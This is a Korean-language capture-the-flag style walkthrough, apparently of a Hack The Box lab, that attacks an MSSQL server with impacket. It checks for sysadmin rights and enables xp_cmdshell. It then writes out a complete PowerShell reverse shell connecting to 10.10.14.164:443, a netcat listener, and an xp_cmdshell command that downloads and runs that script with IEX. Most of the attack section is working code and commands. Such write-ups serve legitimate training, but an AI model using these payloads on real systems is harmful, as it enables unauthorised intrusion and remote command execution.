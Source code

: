 mssql
#
접속환경 : [impacket mssql](https://github.com/sjcode101/cheat-sheet/blob/master/scripts/smb.md)

```
SQL> help
```
![image](https://user-images.githubusercontent.com/61821641/148949558-530742c1-cb4c-4eb9-a22f-0a18270eac1a.png)

권한(role) 확인
```
SQL> SELECT IS_SRVROLEMEMBER('sysadmin')
```
![image](https://user-images.githubusercontent.com/61821641/148955051-f2b02a34-30c9-45c3-9050-aefdca191ef2.png)

참이면 출력하지 않고 거짓이면 "NULL"을 출력한다.
위 결과는 가장 높은 권한(관리자)을 얻음을 의미한다.

windows 명령 셸을 얻기 위해 mssql 의 프로시저인
 `xp_cmdshell`이 이미 활성화되어 있는지 확인(default는 비활성화)
```
SQL> EXEC xp_cmdshell 'net user';
```

![image](https://user-images.githubusercontent.com/61821641/148952405-39245470-ec31-45b0-84b3-c4d6337672c6.png)

비활성화 되어있고 sp_configure를 사용하여 활성화시킬 수 있다고 적혀있다.

xp_cmdshell 활성화 진행

sp_configure를 사용하여 일부 전역 서버를 수정한다.
구문은 다음과 같다.
```
sp_configure [ @configname = ] 'hadoop connectivity',  
             [ @configvalue = ] { 0 | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 }

--[ @configname= ] ' option_name ': 구성 옵션의 이름이다. option_name 은 varchar(35) 이며 기본값은 NULL이다.
--[ @configvalue= ] ' 값 ': 새 구성 설정이다. 값 은 int 이며 기본값은 NULL이다.
```
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
```
고급 옵션 표시를 사용
일부 구성을 변경한 후 `RECONFIGURE`를 사용하여 변경사항을 적용한다.

```
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

![image](https://user-images.githubusercontent.com/61821641/148952182-9d50f06b-8a00-4918-b112-ae21c302de45.png)

```
SQL> xp_cmdshell "whoami"
```
![image](https://user-images.githubusercontent.com/61821641/148952813-c22839fd-80b9-436f-836a-34ab650b152b.png)

SQL Server가 Windows 내에서 해당 사용자(archetype\sql_svc)와 함께 실행되고 있음을 의미한다.

shell.ps1 코드 작성
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.164",443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "# ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()};
$client.Close()
```

한 창에서 python 웹서버를 시작한다.
```
python3 -m http.server 80
```
다른창에선 포트 443에서 수신대기하는 netcat 리스너를 생성한다.
```
nc -nlvp 443
```

방화벽에 규칙을 추가해야할 수 있다.
```
ufw allow from 10.129.12.10 proto tcp to any port 80,443
```

powershell 사용

```
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.164/shell.ps1\");"
```
열어놨던 서버에서 연결응답이 왔다.

![image](https://user-images.githubusercontent.com/61821641/148970648-abb1cfef-4752-4a3b-99ea-1c80e81ac61a.png)

![image](https://user-images.githubusercontent.com/61821641/148971041-c7b5b58f-615d-477e-b888-faa1b2124df4.png)
#

